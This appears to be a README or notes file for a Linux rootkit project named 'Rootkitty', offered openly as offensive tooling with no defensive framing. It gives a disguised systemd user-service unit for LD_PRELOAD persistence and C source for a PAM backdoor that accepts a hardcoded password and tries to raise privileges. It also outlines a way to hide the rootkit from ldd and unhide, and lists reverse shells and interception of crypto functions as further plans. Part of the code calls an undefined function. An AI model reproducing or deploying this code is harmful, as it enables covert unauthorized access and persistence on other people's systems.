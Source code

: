 # Rootkitty
## Persistence Using SystemD services

place file here:
`~/.config/systemd/user/<your_filename>.service`

should look like this:
```rootkatz.service
[Unit]
Description= something, totally not a rootkit[Service]
ExecStart=/usr/bin/bash -c 'export LD_PRELOAD=<path_to_shared_lib>'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

enable service like so:
`systemctl --user enable rootkatz.service`

this depends on the user being logged in.
to do this at boot (for servers, since they dont have users logged in) root must run:
`systemctl --enable-linger <username>` 
obviously since we dont have root access we cannot use this but 
we can check by `ls /var/lib/systemd/linger/` 
if lingering is available there is a empty file with username on it 

## cool stuff for libraries
`static void __attribute__((constructor)) function(args)` 
gets loaded and executed before evrythig

## PAM Backdoor 
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <string.h>
#define PAM_EXTERN extern

int elevation(){
    uid_t UID = getuid();
    gid_t GID = getgid();

    if (seteuid(0) ==- 1){
        return -1;
    }
    if (setegid(0)==-1){
        seteuid(UID);
        return -1;
    }
    return 0;
}

PAM_EXTERN int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_authenticate)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_authenticate = dlsym(RTLD_NEXT, "pam_sm_authenticate");
    
    const char* passwd;
    pam_get_item(pamh, PAM_AUTHTOK, (const void**)&passwd);

    if(passwd != NULL && strcmp(passwd, "backdoorpassword") == 0) {
        return PAM_SUCCESS;
    }

    return og_pam_sm_authenticate(pamh, flags, argc, argv);
}

PAM_EXTERN int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    int (*og_pam_sm_setcred)(pam_handle_t *pamh, int flags, int argc, const char **argv);
    og_pam_sm_setcred = dlsym(RTLD_NEXT, "pam_sm_setcred");
    if (is_backdoor_used(pamh)){
    if(elevation()==0){
return PAM_SUCCESS;
        }
    }
    return og_pam_sm_setcred(pamh, flags, argc, argv);
}
// on exit
int drop_privileges(uid_t original_uid, gid_t original_gid) {
    if (setegid(original_gid)==-1){
        return -1;
    }
  if (seteuid(original_uid) == -1) {
        return -1;
    }
    return 0;
}
```
## Bypassing LDD, LD_LINUX, UNHIDE the lazy way 
hook execve:
if path = path of ldd or whatever
    save old uid 
    decrypt strings
    set uid to 0
    rename ld.so.preload to .ld.so.preload
    wait a lil bit
    undo


## more ideas
- anti debug
- PAM backdoor 
- persistence over systemd service
- reverse shell ipv4 and v6 
- intercept common cryptographic functions
